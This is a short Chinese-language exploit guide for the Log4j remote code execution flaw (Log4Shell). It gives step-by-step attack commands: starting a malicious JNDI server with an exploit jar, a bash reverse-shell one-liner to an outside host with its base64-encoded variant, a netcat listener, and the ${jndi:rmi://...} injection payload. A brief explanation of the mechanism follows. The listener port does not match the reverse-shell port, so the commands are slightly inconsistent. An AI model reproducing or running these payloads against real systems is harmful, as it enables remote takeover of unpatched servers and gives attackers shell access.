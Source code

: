 # Log4j RCE

## 利用条件：

- Apache Log4j 2.x <= 2.14.1

## 利用方法：

### 步骤一：架设恶意JNDI服务
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "要执行的命令" -A 服务器地址`
```java
base64编码：
bash -i >& /dev/tcp/1.1.1.1/1989 0>&1
反弹shell命令：
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzE5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}
```
![](img/JNDI.png)

### 步骤二：开启监听
`nc -lvp 1898`

### 步骤三：POC
`${jndi:rmi://1.1.1.1:1099/zqjm89}`

## 漏洞原理：
1. Log4j会把 `${}` 括号中的语句作为命令执行。
2. 注入攻击语句经过解析会先访问ldap服务器，然后由ldap解析出我们要的文件名，ldap向HTTP服务器请求获取这个文件，最后网站服务器在本地实例化并执行这个java类，即攻击者的攻击脚本得到执行。